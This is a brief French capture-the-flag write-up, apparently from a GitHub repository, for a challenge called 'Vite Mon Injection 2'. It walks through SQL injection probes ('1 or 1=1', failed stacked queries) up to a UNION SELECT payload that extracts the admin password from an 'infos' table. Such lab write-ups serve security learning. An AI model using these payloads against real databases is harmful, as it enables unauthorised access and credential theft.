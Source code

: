 # Vite Mon Injection 2

![img](./0.png)
![img](./1.png)

## Challenge :

Récupérer le mot de passe de l'admin

## Stratégie :

On peut déjà regarder comment ça fonctionne :

 - Avec `1` => `Pas de résultat`
 - Avec `1 or 1=1` => `2`

On va voir une requête simple :

 - `1; SELECT username, password FROM infos` => `La commande n'a pas marché`
 - `1; SELECT password FROM infos where username='admin'` => `La commande n'a pas marché`
 
On peut se dire que derrière la bonne donnée n'entre pas au bon endroit.
Essayons un UNION

 - `1 UNION SELECT password FROM infos WHERE username = 'admin';` => `Le bon mot de passe`
